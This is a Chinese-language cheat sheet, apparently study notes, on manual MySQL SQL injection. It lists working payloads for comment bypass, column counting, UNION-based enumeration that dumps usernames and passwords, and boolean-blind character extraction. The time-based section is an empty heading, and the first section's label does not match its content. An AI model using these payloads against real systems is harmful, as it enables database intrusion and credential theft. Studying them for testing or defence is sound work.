 ### 报错注入
1.**常用的注释payload**
```
	or 1=1--+
	'or 1=1--+
	"or 1=1--+
	)or 1=1--+
	')or 1=1--+
	") or 1=1--+
	"))or 1=1--+
	--+ 可以用#替换，url 提交过程中 Url 编码后的#为%23
```
2. **查询字段数目**
查询字段数目主要利用MySQL里面的 order by 来判断字段数目，order by一般采用数学中的对半查找来判断具体的字段数目
```
 order by 10 --+ (二分法)
```

3. **联合查询**
UNION SELECT 联合查询，手工注入经典语句，作用是在后面通过UNION把我们的恶意注入语句接上去，带入数据库进行查询。因为字段数目是:3,那么正规的语句如下:
```
UNION SELECT 1,2,3 --+
```
4.**获取信息**
```
version()            #MySQL版本
user()               #数据库用户名
database()           #数据库名
@@datadir            #数据库路径
@@version_compile_os #操作系统版本
```
5.**获取表名**
```
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
```
6.**获取列名**
```
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```
7.**获取字段**
```
UNION SELECT 1,2,group_concat(id,username,password) from users --+
```
8.**总结**
```
order by –+ 判断字段数目
union select –+ 联合查询收集信息
UNION SELECT 1,2,database() –+ 查询当前数据库
UNION SELECT 1,2,group_concat(schema_name) from information_schema.schemata –+查询所有数据库
UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() –+ 查询表名
UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='users' –+ 查询列名
UNION SELECT 1,2,group_concat(id,username,password) from users –+ 查询字段值
```
### 布尔注入
```
mid(str,1,3)字符串截取
ORD()转换成ascii码
Length()统计字节长度
version()查看数据库版本
database()查看数据库名
user()查看当前用户
```
1. 判断注入点
2. 获取数据库名称长度
```
and (select length (database())) = '8'
```

3. 获取数据库名称
and (select ord(substring(database(),1,1))) = 97

4.获取表总数
```
select count(table_name) from information_schema.tables where table_schema = database()
```
5. 获取表名长度
```
SELECT LENGTH (TABLE_NAME) from information_schema.tables where table_schema = DATABASE() LIMIT 0,1
```
6. 获取表名
```
SELECT ORD(SUBSTR((select(TABLE_NAME) from information_schema.tables where table_schema = DATABASE() limit 3,1),2,1))
```
获取字段总数
```
SELECT  COUNT(column_name) from information_schema.columns where table_name='users'
```
7. 获取字段长度
```
SELECT length(column_name) from information_schema.columns where table_name='users' LIMIT 0,1
```
7. 获取字段名称
select ord(SUBSTR((SELECT(COLUMN_NAME) from information_schema.columns where table_name='users' LIMIT 0,1),3,1))
8. 获取数据


### 延时注入
